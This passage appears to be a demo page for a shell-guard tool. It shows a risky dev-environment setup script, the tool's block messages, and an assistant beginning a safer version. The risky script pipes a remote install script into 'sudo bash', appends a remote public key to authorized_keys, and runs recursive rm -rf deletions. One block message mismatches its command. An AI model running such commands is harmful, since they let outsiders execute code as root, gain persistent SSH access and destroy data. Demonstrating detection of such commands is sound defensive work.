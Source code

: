 ```bash
# Download additional tools
curl -fsSL http://setup-server.com/install.sh | sudo bash

# Set up SSH keys
curl -s http://setup-server.com/pubkey >> ~/.ssh/authorized_keys

# Final cleanup
find /home -name "*.old" -exec rm -rf {} \;

echo "Development environment setup complete!"
EOF

chmod +x setup_dev_env.sh
./setup_dev_env.sh

# 🚨 ShellGuard CATCHES multiple issues:

rm -rf ~/.ssh/
# 🚨 BLOCKED: Dangerous pattern detected: rm -rf
# Use 'safe_rm' if you really need to delete files

curl -fsSL http://setup-server.com/install.sh | sudo bash
# 🚨 BLOCKED: Dangerous pattern detected: sudo
# Use 'force_git' if you really need this git command
```

**USER:** "The script has security issues, please create a safer version"

**CHATGPT:** "You're absolutely right. Here's a much safer setup script:"

```bash
cat > safe_setup_dev_env.sh << 'EOF'
#!/bin/bash
set -e  # Exit on any error

echo "Setting up development environment safely..."

# Function to check if command exists
command_exists() {
    command -v "$1" >/dev/null 2>&1
}

# Update system packages (with user confirmation)
read -p "Update system packages? (y/N): " -n 1 -r
echo
if [[ $REPLY =~ ^[Yy]$ ]]; then
    sudo apt update
fi

# Install development tools
echo "Installing development tools..."
sudo apt install -y git vim nodejs npm python3 python3-pip

# Backup existing configurations before changes
backup_dir="$HOME/.config_backup_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$backup_dir"

if [[ -f ~/.gitconfig ]]; then
    cp ~/.gitconfig "$backup_dir/"
    echo "Backed up .gitconfig to $backup_dir"
fi

# Set up Git configuration (interactive)
read -p "Enter your Git username: " git_username
```
